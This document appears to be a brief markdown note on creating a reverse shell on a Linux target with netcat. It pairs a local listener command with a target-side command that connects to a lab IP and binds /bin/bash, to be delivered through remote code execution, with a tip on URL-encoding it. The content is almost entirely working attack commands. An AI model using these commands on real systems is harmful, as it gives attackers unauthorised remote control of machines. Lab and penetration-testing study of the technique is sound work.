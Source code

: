 # Overview
Create a reverse shell on a Linux target using NetCat on both the target and local machine.  This technique requires two terminals, each with NetCat session providing two different functions.
## Terminal 1
~~~ bash
# create a netcat listener
nc -nvlp 4444

# this is a netcat listiner listeniung for a connection on the local machine on port 4444
~~~
## Terminal 2
~~~ bash
# this exploit requires that netcat is available on the target machine and the local machine has Remote Code Executation (RCE) on the target machine

# the 'which' command can be used to check if an application is available
which netcat
/usr/bin/netcat

# with netcat avalable and a listener running on the local machine, a reverse shell can be created on the target machine using RCE to execute the following command

# in this example the ip of the local machine is 192.168.45.187
#### NOTE this may require url encoding for whitespace and special characters
nc 192.168.45.187 4444 -e /bin/bash
~~~
